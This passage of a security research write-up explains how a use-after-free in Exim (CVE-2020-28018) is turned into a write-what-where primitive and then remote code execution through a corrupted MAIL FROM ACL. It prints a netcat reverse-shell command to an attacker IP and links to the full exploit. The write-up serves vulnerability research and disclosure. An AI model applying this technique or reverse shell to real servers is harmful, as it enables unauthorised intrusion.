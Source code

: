 So I was able to overwrite the struct through a message and control all the parameters in the struct.

[](#write-what-where)Write-what-where
-------------------------------------

We now know the address where the target configuration is stored.

By using the same technique I used for overwriting the target `gstring` struct, we can do the same but to craft a write-what-where primitive.

This time `corked->size` must be a high value. `corked->ptr` must be zero in order to start writing response on `corked->s` directly.

`corked->s` will contain the address where we want to write the response of our command triggering the UAF.

Once we overwrite the `gstring` struct with such values, we need to trigger the Use-After-Free initializing again a TLS Session.

We send an invalid `MAIL FROM` command so part of our command is returned on the response, which allows us to write arbitrary data.

[](#achieving-remote-code-execution)Achieving Remote Code Execution
-------------------------------------------------------------------

ACL is overwritten by our custom command, how do we make it be executed?

Once the ACL is corrupted, in this case I overwrote the ACL corresponding to `MAIL FROM` commands, we need to make that ACL being interpreted by `expand_cstring()`. To do so, after the `MAIL FROM` we used to overwrite the ACL we can pipeline another command (`MAIL FROM` too as the previous one failed) which will make the ACL being passed to `expand_cstring()` and the command will finally be executed.

I had a problem with max arguments. I could not `nc -e/bin/sh <ip> <port>`, just two args were allowed. So I used this as command: `/bin/sh -c 'nc -e/bin/sh <ip> <port>'`.

Now it won’t give us max_args problem and the command will be executed, resulting on a reverse shell:

![](https://i.imgur.com/u8icysF.png)

[](#eof)EoF
-----------

The full exploit can be found [here](https://github.com/lockedbyte/CVE-Exploits/blob/master/CVE-2020-28018/exploit.c).

We hope you enjoyed this reading! Feel free to give us feedback at our twitter [@AdeptsOf0xCC](https://twitter.com/AdeptsOf0xCC).